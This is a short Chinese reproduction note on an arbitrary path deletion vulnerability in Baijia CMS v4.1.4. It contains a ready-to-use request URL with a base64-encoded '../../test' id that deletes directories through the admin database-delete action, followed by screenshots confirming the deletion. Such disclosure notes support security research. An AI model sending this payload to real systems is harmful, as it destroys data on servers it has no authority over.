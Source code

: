 百家cms v4.1.4 任意路径删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    # 只能删除路径
    http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1

根目录下创建test文件夹，里面有内容为123的test.txt文件

![](./.resource/百家cmsv4.1.4任意路径删除漏洞/media/rId24.png)

访问payload将参数转为base64并方位payload

![](./.resource/百家cmsv4.1.4任意路径删除漏洞/media/rId25.png)

![](./.resource/百家cmsv4.1.4任意路径删除漏洞/media/rId26.png)

查看文件夹，已被删除

![](./.resource/百家cmsv4.1.4任意路径删除漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
